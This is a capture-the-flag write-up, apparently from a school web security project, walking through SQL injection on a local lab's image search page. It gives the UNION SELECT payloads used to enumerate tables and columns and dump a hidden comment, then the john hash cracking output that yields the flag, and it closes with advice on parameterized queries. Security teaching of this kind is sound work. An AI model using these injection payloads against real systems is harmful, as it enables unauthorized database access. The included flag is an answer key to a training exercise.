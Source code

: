 ## [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

This vulnerability occurs on the [Search Image](http://localhost:8080/index.php?page=searchimg) page. We try every ID starting from `1` and with `5`, we get this:

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

Since this input field looks very vulnerable to SQL injections, we try a single quote like in the [Members](/sql_injection_members) page. It doesn't output anything, so we need to be more creative, with `42 OR TRUE--`:

```
ID: 5 OR TRUE--
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 5 OR TRUE--
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 5 OR TRUE--
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 5 OR TRUE--
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 5 OR TRUE--
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

This doesn't give us anything new but it proves that the input field is vulnerable to SQL injections.

Now we use another command to see what tables we have access to:

```
ID: 42 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=DATABASE()--
Title: list_images
Url :
```

We now explore `list_images`, by encoding the column name in hexa:

```
ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: id
Url :

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: url
Url :

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: title
Url :

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: comment
Url :
```

There is a comment field which we didn't know about. Fetching its values gives us:

```
ID: 42 UNION SELECT title, comment FROM list_images--
Title: An image about the NSA !
Url : Nsa

ID: 42 UNION SELECT title, comment FROM list_images--
Title: There is a number..
Url : 42 !

ID: 42 UNION SELECT title, comment FROM list_images--
Title: Google it !
Url : Google

ID: 42 UNION SELECT title, comment FROM list_images--
Title: Earth!
Url : Earth

ID: 42 UNION SELECT title, comment FROM list_images--
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

We just need to follow the instructions:

```console
$ john --format=Raw-MD5 sql_injection_images/resources/comment
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Proceeding with single, rules:Single
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2025-05-24 15:16) 0g/s 50750p/s 50750c/s 50750C/s Comment1909..Comment1900
Proceeding with wordlist:/tmp/tmpv8957wdu/password.lst
Enabling duplicate candidate password suppressor
albatroz         (comment)
1g 0:00:00:00 DONE 2/3 (2025-05-24 15:16) 9.090g/s 2164Kp/s 2164Kc/s 2164KC/s billy420..Thanks
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
$ echo -n albatroz | sha256sum
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```

To defend against SQL injections, use parameterized queries (also known as prepared statements) everywhere so the driver, not your code, handles quoting and type-checking. Escaping tricks like replacing quotes only give a false sense of security—an attacker will just switch to `0x`, `CHAR()` or similar tricks.
